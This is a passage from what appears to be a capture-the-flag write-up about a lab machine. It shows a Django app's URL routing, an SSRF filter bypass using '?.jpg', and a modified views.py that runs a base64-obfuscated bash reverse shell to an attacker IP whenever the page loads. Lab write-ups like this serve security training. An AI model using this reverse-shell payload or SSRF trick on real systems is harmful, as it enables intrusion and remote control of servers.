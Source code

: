 
These aren’t too helpful, as much of the site isn’t implemented yet. There’s
another `urls.py` in `writer_web`:

    
    
    from django.conf.urls import url
    from writer_web import views
    
    urlpatterns = [
        url(r'^$', views.home_page, name='home'),
    ]
    

It matches on an empty path (basically `/`), and returns `views.home_page`.
`views.py` has that function:

    
    
    from django.shortcuts import render
    from django.views.generic import TemplateView
    
    def home_page(request):
        template_name = "index.html"
        return render(request,template_name)
    

### Exploit

#### Strategy

If I modify this code and put it back, then somehow manage to load the page,
I’ll get execution. There are two steps here. First I need to create a payload
that works, and then I need to make sure I have an SSRF that can trigger it.

#### SSRF

The SSRF in the main Writer site comes from giving it a image url:

![image-20211202140640007](https://0xdfimages.gitlab.io/img/image-20211202140640007.png)

There’s a lot of annoying client-side filtering, so I’ll put in 0xdf.com and
submit it, and then get that request and send it over to Repeater.

I remember from the original source that it only goes the path of the SSRF if
`.jpg` is in the url. But I also need the url to hit the `/` of v2. I can
achieve this using `.jpg` as a parameter, `http://127.0.0.1:8080/?.jpg`. An
anchor point (`/#.jpg`) would work as well.

#### Payload

My new `views.py` uses the same reverse shell I used above for root:

    
    
    from django.shortcuts import render
    from django.views.generic import TemplateView
    import os
    
    def home_page(request):
        os.system('echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTMvNDQzIDA+JjEiCg== | base64 -d | bash')
        template_name = "index.html"
        return render(request,template_name)
    